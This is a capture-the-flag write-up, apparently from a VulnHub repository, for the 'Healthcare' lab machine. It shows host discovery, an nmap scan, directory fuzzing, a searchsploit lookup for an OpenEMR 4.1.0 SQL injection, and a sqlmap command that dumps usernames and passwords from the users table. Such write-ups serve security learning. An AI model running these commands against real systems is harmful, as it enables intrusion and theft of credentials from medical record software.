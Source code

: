# Healthcare

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:13	(Unknown: locally administered)
192.168.56.100	08:00:27:ec:52:57	PCS Systemtechnik GmbH
192.168.56.135	08:00:27:34:e9:a5	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.135`, let's enumerate it.

### 2.Enumeration

```bash
root@kali: nmap -sV -sC -v 192.168.56.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:34:E9:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```

i begin with port 21 and check anonymous login, but no chance

on port 80 we see nothing intresting too, so i began fuzzing the directories, i tried several wordlists for directory bruteforcing but no chance

finally i used this wordlist `danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-2.3-big.txt` and found this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d69df255-75e2-4e4a-82a2-4a08b9b5a082)

let's visit this new directory :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/61744c55-fcbe-4ad2-8cb4-b5afc0d24054)

as we can see the version of OpenEMR that is `4.1.0`, we search in searchsploit to find any vulns :

```bash
root@kali: searchsploit openemr
OpenEMR 4.1.0 - 'u' SQL Injection | php/webapps/49742.py
```

on this code we see that there is a vulnerable endpoint and parameter i just copied it and used it in sqlmap :

```bash
root@kali: sqlmap -u "http://192.168.56.135/openemr/interface/login/validateUser.php?u=" -p 'u' --batch -D openemr -T users -C username,password --dump
```








